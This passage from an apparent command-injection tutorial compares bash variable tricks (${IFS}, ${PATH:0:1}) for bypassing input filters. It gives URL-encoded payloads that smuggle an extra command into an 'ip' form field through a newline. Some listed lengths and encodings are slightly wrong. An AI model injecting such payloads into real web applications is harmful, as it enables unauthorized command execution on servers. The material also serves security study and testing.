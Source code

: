 ### Variable Syntax Alternatives

**Different Environment Variable Formats:**
```bash
# Explicit form (recommended - safer)
${IFS}        # Clear variable boundaries
${PATH:0:1}   # Substring with explicit braces

# Short form (compact)
$IFS          # Direct variable reference
$PATH         # Basic variable access

# Quoted variations
"${IFS}"      # Double quoted (allows expansion)
'${IFS}'      # Single quoted (literal string)
"$IFS"        # Double quoted short form
```

**Web Application Usage Variations:**
```http
# Method A: Explicit syntax (recommended)
ip=127.0.0.1%0als${IFS}${PATH:0:1}home
# URL encoded: ip=127.0.0.1%0als%24%7bIFS%7d%24%7bPATH:0:1%7dhome

# Method B: Short syntax (compact)
ip=127.0.0.1%0als$IFS${PATH:0:1}home
# URL encoded: ip=127.0.0.1%0als%24IFS%24%7bPATH:0:1%7dhome

# Method C: Mixed syntax
ip=127.0.0.1%0als$IFS$PATH%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f
# URL encoded: ip=127.0.0.1%0als%24IFS%24PATH (with manual slashes)
```

**Advantages of Each Syntax:**

**Explicit `${VAR}` Syntax:**
- ✅ **Clear boundaries** - Prevents variable name confusion
- ✅ **Safer parsing** - Bash interprets correctly in complex contexts
- ✅ **Substring support** - Required for `${VAR:start:length}`
- ✅ **Best practice** - Recommended in professional scripts

**Short `$VAR` Syntax:**
- ✅ **Compact** - Shorter payloads
- ✅ **Less encoding** - Fewer special characters to URL encode
- ✅ **Faster typing** - Quick manual testing
- ❌ **Ambiguous boundaries** - Can cause parsing issues in complex strings

### URL Encoding Comparison

**Encoding Length Differences:**
```bash
# Original command: ls /home
# Method A: ${IFS}${PATH:0:1}
Raw:     ls${IFS}${PATH:0:1}home
Encoded: ls%24%7bIFS%7d%24%7bPATH:0:1%7dhome
Length:  38 characters

# Method B: $IFS${PATH:0:1}  
Raw:     ls$IFS${PATH:0:1}home
Encoded: ls%24IFS%24%7bPATH:0:1%7dhome
Length:  32 characters (6 chars shorter)

# Method C: Short variables only
Raw:     ls$IFS$HOME
Encoded: ls%24IFS%24HOME  
Length:  15 characters (23 chars shorter)
```